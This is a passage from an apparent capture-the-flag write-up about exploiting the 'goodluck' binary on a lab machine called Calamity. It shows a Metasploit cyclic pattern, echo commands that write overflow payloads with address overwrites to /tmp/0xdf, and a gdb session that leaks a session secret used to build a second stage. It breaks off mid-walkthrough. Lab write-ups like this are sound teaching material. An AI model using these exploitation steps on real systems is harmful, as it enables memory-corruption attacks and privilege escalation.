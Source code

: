 
    root@kali# msf-pattern_create -l 120
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9



I need to run in `gdb` to get EIP when this crashes. I could run the
exploit locally, or just do a manual exploitation on Calamity. I opted
for the latter.

I'll write the stage 1 exploit to a file:



    xalvas@calamity:~$ echo -en "AAAAAAAA\xf8\x2f\x00\x80" > /tmp/0xdf



Now I'll run `goodluck` in `gdb` up to the leak:



    xalvas@calamity:~$ gdb -q app/goodluck
    Reading symbols from app/goodluck...(no debugging symbols found)...done.
    gdb-peda$ r
    Starting program: /home/xalvas/app/goodluck 

    Filename:  /tmp/0xdf


            -----MENU-----
    1) leave message to admin
    2) print session ID
    3)login (admin only)
    4)change user
    5)exit

     action: 2

    debug info: 0x109616d


            -----MENU-----
    1) leave message to admin
    2) print session ID
    3)login (admin only)
    4)change user
    5)exit

     action:



Now I'll use that leaked secret to write stage 2:



    xalvas@calamity:~$ echo -en "\x6d\x61\x09\x01AAAA\xf4\x2f\x00\x80" > /tmp/0xdf



I'll continue:


